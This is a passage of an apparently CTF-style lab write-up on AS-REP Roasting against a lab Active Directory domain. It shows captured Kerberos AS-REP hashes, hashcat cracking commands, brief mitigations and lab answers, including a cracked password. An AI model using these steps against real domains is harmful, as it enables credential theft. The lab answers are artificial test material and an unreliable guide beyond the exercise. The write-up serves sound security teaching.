 ```shell
[*] AS-REP hash:

      $krb5asrep$Admin2@CONTROLLER.local:F1DD06F612FDEF33DEED86E4BE4F1FBF$25CB8CBC1693
      7A5BB84C798B8920C37496A0762C288524FB8A324370C07A5142C648FC8102A1E7D545F2DBD978C6
      F52DD66A1796AD678C2156C4165124C3EB334E7E6CD7F7A85F3FDE6985ECD71941BDA9034F65BC1A
      3D4A332FF012DBBB6A4D68715991ED2F10373B625A0DEBF17AD9A6960E2EE8223D09A89963CD257A
      6C48077E8F1A9D7EEA81F4D96676CC9B1F9332CC54A647CF76E94A56B2636ECC6FD34332683C2EB4
      E57271D0002742864EFE00D1BF87A20A7AE10C7EDF004C68A68A89F280B2563454231BC99E6D5261
      9E2BD0C3F72BBC9A7F50611D742A9FC4C53E7811F737057523098A9C418ABCFC17DD778E3CD3

[*] SamAccountName         : User3
[*] DistinguishedName      : CN=User-3,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::edde:c433:95ab:1b34%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\User3'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$User3@CONTROLLER.local:7EC95C29C0F996867A7F6C55FCADBC19$3D22242B6DCDE
      125D23AB664126C0FB562B6A09FA9733EA9138C6CF7A16532052EC17367EA9696A50C72EB391767F
      AF279B3C5CE9E10831020208A8562878E505C554842FD6B52665F2F51496CBE80B53114DFB13DD3F
      C659DF617BBFB376BF791350A25CC3AD382D2A2D5ADC34DEE47283F8D2177EAD3F2715246E6FC703
      EEA7B8B304AE22ED3DFE33E908B0DA466434C692B62A8E4A0C8B0DBA10772AFFDBCFE0C87DF04DEA
      E7FCAC64CEEC058A38B9833D560D45B06FF8B1D1115A8CB7DF9B47E6CBE5A1B8E6A7AD0096B3FA51
      8DFA7285933F1A460CCCF32A8F43466C91ECC4159155228E763516C7B112497740C71A3511B
```

##  Crack those Hashes w/ Hashcat

1. Copy and put hashes into text files. ``admin2hash.txt`` and ``user3hash.txt``
2. Insert ``23$`` after ``$krb5asrep$``
3. ``hashcat -m 18200 admin2hash.txt Pass.txt`` and ``hashcat -m 18200 user3hash.txt Pass.txt``

##  AS-REP Roasting Mitigations 

- Have a strong password policy. With a strong password, the hashes will take longer to crack making this attack less effective

- Don't turn off Kerberos Pre-Authentication unless it's necessary there's almost no other way to completely mitigate this attack other than keeping Pre-Authentication on.

##   Answer the questions below

**What hash type does AS-REP Roasting use?**

- Kerberos 5, etype 23, AS-REP

**Which User is vulnerable to AS-REP Roasting?**

- User3

**What is the User's Password?**

- Password3
